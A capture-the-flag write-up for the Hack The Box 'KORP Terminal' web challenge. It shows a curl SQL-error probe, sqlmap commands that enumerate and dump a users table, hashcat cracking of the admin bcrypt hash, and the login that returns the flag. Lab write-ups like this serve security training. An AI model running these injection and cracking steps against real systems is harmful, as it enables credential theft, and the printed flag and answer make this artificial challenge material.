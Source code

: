 # Target
| Category      | Details                                                                  |
|---------------|--------------------------------------------------------------------------|
| 📝 Name       | [KORP Terminal](https://app.hackthebox.com/challenges/KORP%2520Terminal) |
| 🏷 Type       | HTB Web Challenege                                                       |
| 🎯 Difficulty | Very Easy                                                                |
| #️⃣ Tags       | Blind SQL Injection, sqlmap, hashcat                                     |

With simple `curl` we can see that target has SQL injection vulnerability in `username` parameter
```┌──(magicrc㉿perun)-[~/…/HTB/Challenges/Web/KORP Terminal]
└─$ curl http://$TARGET -d "username='&password=pass"
{"error":{"message":["1064","1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1","42000"],"type":"ProgrammingError"}}
```

Let's use `sqlmap` to exploit this SQL injection
```
sqlmap -u http://$TARGET --data 'username=user&password=pass' --batch --ignore-code 401 --dbs
<SNIP>
available databases [3]:
[*] information_schema
[*] korp_terminal
[*] test
<SNIP>
```

`korp_terminal` seems could be interesting, so let's list it's tables
```
┌──(magicrc㉿perun)-[~/attack/HTB KORP Terminal]
└─$ sqlmap -u http://$TARGET --data 'username=user&password=pass' --batch --ignore-code 401 -D korp_terminal --tables
<SNIP>
Database: korp_terminal
[1 table]
+-------+
| users |
+-------+
<SNIP>
```

Single `users` table has been found let's dump it.
```
┌──(magicrc㉿perun)-[~/attack/HTB KORP Terminal]
└─$ sqlmap -u http://$TARGET --data 'username=user&password=pass' --batch --ignore-code 401 -D korp_terminal -T users --dump
<SNIP>
Database: korp_terminal
Table: users
[1 entry]
+----+--------------------------------------------------------------+----------+
| id | password                                                     | username |
+----+--------------------------------------------------------------+----------+
| 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
+----+--------------------------------------------------------------+----------+
<SNIP>
```

This table contains single entry which seems to be bcrypt hashed credentials for `admin` user. Let's use `hashcat` for dictionary attack.
```
┌──(magicrc㉿perun)-[~/attack/HTB KORP Terminal]
└─$ hashcat -m 3200 '$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.' /usr/share/wordlists/rockyou.txt --quiet
$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

With password in place we could login and capture the flag.
```
┌──(magicrc㉿perun)-[~/attack/HTB KORP Terminal]
└─$ curl http://$TARGET -d "username=admin&password=password123"
HTB{t3rm1n4l_cr4ck1ng_4nd_0th3r_sh3n4nig4n5}
```